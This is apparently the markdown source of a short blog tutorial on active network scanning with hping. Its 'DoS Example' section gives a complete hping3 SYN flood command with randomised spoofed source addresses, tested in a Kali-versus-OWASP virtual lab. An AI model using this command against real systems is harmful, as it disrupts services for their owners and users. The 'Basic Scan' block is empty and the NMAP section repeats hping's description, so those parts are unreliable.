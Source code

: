 ```yaml
---
date: "2019-01-13"
title: "Network Scan"
category: "Hacking"
---
```

In general, there are two types of network scan.
1. Passive Scan (Whireshark, ARP Tables)
2. Active Scan (Hping, NMAP, Scapy...etc)

The difference between two is <b>passive</b> scan will not be recognized by targets. On the other hand, <b>active scan</b> will leave traces and requires more preparations before scanning the target system.
<br/>
<br/>
Today, we are going to cover some userfule <b>active</b> scan tools.


###Hping
>Hping is a command-line oriented TCP/IP packet assembler/analyzer.

List of features, including
+ TCP/IP packet analyzer
+ Support TCP, UDP, ICMP
+ Firewall testing
+ Port scanning
+ Remote OS fingerprinting
+ DoS attacks

####Basic Scan
```bash
`

```

####DoS Example
```bash

--flood: sent packets as fast as possible. Don't show replies.
--rand-dest: random destionation address mode. see the man.
-V -- Verbose
-c --count: packet count
-d --data: data size
-S --syn: set SYN flag
-w --win: winsize (default 64)
-p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
-s --baseport: base source port (default random)

hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source TARGET_ADDRESS
```

To test this case, I used Kali (attacker) and OWASP (victim) on VM virtual box.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/network%20scan/DoS.png)

From Wireshark, we can see tons of TCP packets sent from Kali to OWASP server with random source IP address.

###NMAP
>Hping is a command-line oriented TCP/IP packet assembler/analyzer.


